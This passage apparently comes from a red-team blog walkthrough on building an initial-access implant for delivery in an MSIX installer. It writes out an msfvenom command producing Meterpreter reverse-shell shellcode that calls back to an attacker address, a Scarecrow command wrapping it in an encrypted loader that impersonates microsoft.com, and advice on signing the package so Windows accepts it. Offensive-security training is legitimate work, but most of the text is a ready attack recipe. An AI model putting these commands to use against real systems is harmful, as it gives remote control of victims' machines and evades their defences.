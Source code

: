 - We can quickly create a simple implant for the initial access. I will utilize an awesome repo called Scarecrow which I came across a while back that can create payloads that mimics reputable sources.
- We create our shellcode with msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.75.128 LPORT=9001 -f raw > protection.bin
```

- Then generate the loader using Scarecrow

```bash
./scarecrow -I protection.bin -domain www.microsoft.com -encryptionmode AES 

```
<img src="/posts/2024-06-11_red_team06/images/scarecroww.png"> 

- Host the final loader



<img src="/posts/2024-06-11_red_team06/images/server.png"> 



### 3. Create an SSL certificate

- When running the MSIX file, Windows will check for the `digital signature` of the file to ensure it is legitimate and has not been tampered with. If you were to create an MSIX file without signing it, Windows will throw an error to you rejecting the installation process.
- Threat actors will buy or use stolen certificates in order to create legitimately signed files. For this example, we will work with our own `self-signed certificate`, which we will install the corresponding public key on the target machine in order to bypass the warnings and errors.
